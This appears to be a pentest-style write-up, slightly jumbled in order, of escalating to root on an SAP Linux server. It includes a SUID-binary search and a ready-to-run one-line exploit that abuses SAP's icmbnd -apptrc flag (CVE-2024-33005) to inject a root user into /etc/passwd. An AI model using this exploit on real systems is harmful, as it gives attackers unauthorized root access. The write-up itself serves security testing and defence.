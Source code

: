 I saw this was a x86_64 system, and our user pbdadm was part of the sapsys group. That group name alone screamed “potential privilege escalation path”.

#### Step 2: Hunting for SAP Binaries

SAP installations love dumping their tools in /usr/sap/ and /sapmnt/. I went digging:

```bash
find /usr/sap /sapmnt -name "*" -type f -perm -4000 2>/dev/null
```

That’s how I found icmbnd hiding in /sapmnt/PBD/exe/uc/linuxx86_64/. A quick search revealed it had a known vulnerability (CVE-2024-33005) that lets you append arbitrary content to any file hello, /etc/passwd.

#### Step 3: The Compiler Problem

The server had no development tools. No gcc, no make, nothing. That meant I couldn’t compile any kernel exploits locally. I tried cross-compiling on a Kali machine and transferring the binaries, but kept hitting:

```bash
./dirtycow: cannot execute binary file: Exec format error
```

Library mismatches. Architecture nuances. The usual pain. So I pivoted instead of kernel exploits, I focused on the SAP-specific attack surface. And that’s where icmbnd came in.

#### Step 4: Understanding the Vulnerability

icmbnd is used for SAP communication and tracing, but it doesn’t properly validate input. Using the -apptrc flag, I could make it write our payload to any file. The exploit looked like this:

```bash
./icmbnd -S '443' -f /etc/passwd -apptrc -p HTTP -l $'443\nlekos:$1$AwDjdkIq$xkULC583.3EEgEsbmg1Qf/:0:0::/root:/bin/sh\nabc'
```

This injected a new root user into /etc/passwd. Game over.

I didn’t need a compiler. I didn’t need kernel exploits. I just needed to abuse what was already there.

<strong>Goal:</strong> get root, laugh at the admins)))

### Recon Phase

#### Kernel check:
```bash
uname -a

Linux sappodev 4.4.21-69-default x86_64 GNU/Linux
```
<strong>Translation:</strong> dusty kernel. Old enough to be vulnerable, but probably patched, cause this is an enterprise box.

#### User check:
